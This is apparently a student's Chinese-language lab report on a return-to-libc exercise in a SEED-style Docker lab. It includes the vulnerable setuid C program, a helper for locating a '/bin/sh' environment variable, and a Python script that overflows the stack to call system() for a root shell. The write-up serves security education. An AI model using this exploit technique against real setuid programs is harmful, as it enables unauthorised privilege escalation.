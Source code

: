 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      【网络攻防大作业】Return_to_libc实验报告 				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2024-1-1				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-2.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - Pwn
    - Return to libc
---
```




## Return_to_libc WriteUp

### 1.环境搭建

- 修改flag为学号

- 构建docker镜像（运行`sudo ./build.sh`，注意`chmod +x`修改权限），连接不稳定，可能需要多次尝试

- 开启docker，禁用ASLR。

  ![image-20231231144427491](/img/posts/2024-1-1-Return_to_libc.assets/image-20231231144427491.png)

- 使用`netstat -antp`查看ssh服务状态

  ![image-20231231144545863](/img/posts/2024-1-1-Return_to_libc.assets/image-20231231144545863.png)

- 登录容器`ssh 0.0.0.0 -p 49153 -l seed`

### 2. 漏洞利用

运行镜像中vuln程序，vuln有setuid权限，因此可以尝试通过此来获取root shell。

![image-20231231145335514](/img/posts/2024-1-1-Return_to_libc.assets/image-20231231145335514.png)

查看vuln源代码：

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#ifndef BUF_SIZE
#define BUF_SIZE 12
#endif

int bof(char *str)
{
    char buffer[BUF_SIZE];
    unsigned int *framep;

    // Copy ebp into framep
    asm("movl %%ebp, %0" : "=r" (framep));      

    /* print out information for experiment purpose */
    printf("Address of buffer[] inside bof():  0x%.8x\n", (unsigned)buffer);
    printf("Frame Pointer value inside bof():  0x%.8x\n", (unsigned)framep);

    strcpy(buffer, str);   

    return 1;
}

int main(int argc, char **argv)
{
   char input[1000];
   FILE *badfile;

   badfile = fopen("/home/seed/the_file", "r");
   int length = fread(input, sizeof(char), 1000, badfile);
   printf("Address of input[] inside main():  0x%x\n", (unsigned int) input);
   printf("Input size: %d\n", length);

   bof(input);

   printf("(^_^)(^_^) Returned Properly (^_^)(^_^)\n");
   return 1;
}
```

发现输入`input`长度可以达到1000，可以造成栈溢出攻击获取root shell。

![image-20231231145600873](/img/posts/2024-1-1-Return_to_libc.assets/image-20231231145600873.png)

另外发现docker镜像中已将zsh链接到sh，因此只需构造环境变量`/bin/sh`，使用`system('/bin/sh')`获取shell即可。`system`，`exit`地址如下。

![image-20231231152925920](/img/posts/2024-1-1-Return_to_libc.assets/image-20231231152925920.png)

根据vuln返回信息可以获取到input、buffer地址以及栈帧基址。

```shell
seed /home/seed % vuln
Address of input[] inside main():  0xffffd8d0
Input size: 66
Address of buffer[] inside bof():  0xffffd7e4
Frame Pointer value inside bof():  0xffffd8b8
```



可以计算出从buffer需要溢出`0xffffd8b8-0xffffd7e4 = 212`个字节可以溢出到ebp。然后ebp返回地址上填入system地址，并添加参数和exit返回地址即可。

参数`/bin/sh`尝试使用环境变量实现。

![image-20231231153450024](/img/posts/2024-1-1-Return_to_libc.assets/image-20231231153450024.png)

构造脚本`genv.c`获取环境变量地址，

```c
#include<stdlib.h>
#include<stdio.h>

void main(){
char* shell = getenv("MYSHELL");
if (shell)
  printf("%x\n", (unsigned int)shell);
}
```

编译genv并上传，获取到`/bin/sh`地址`0xffffdfd5`。

```shell
gcc -m32 genv.c -o genv
scp -P 49153 ./genv seed@0.0.0.0:/home/seed
```

![image-20231231153928103](/img/posts/2024-1-1-Return_to_libc.assets/image-20231231153928103.png)

构造python脚本，并上传

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

input_addr	= 0xffffd8c0
buffer_addr	= 0xffffd7d4
ebp_addr	= 0xffffd8a8 
system_addr	= 0xf7e19360   # The address of system()
exit_addr	= 0xf7e0bec0
sh_addr = 0xffffdfd2       # The address of "/bin/sh"

Y = ebp_addr - buffer_addr + 4
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

X = Y + 8
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Z = Y + 4
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("the_file", "wb") as f:
  f.write(content)
```

```shell
scp -P 49153 ./exp.py seed@0.0.0.0:/home/seed
```

修改文件权限并执行：

```shell
chmod 755 exp.py
chmod 755 the_file
python3 exp.py
```

其中发现"/bin/sh"环境变量存在偏移0x3，对exp.py稍作修改后重新运行，成功获取到root shell，获取到flag。

![image-20231231154624159](/img/posts/2024-1-1-Return_to_libc.assets/image-20231231154624159.png)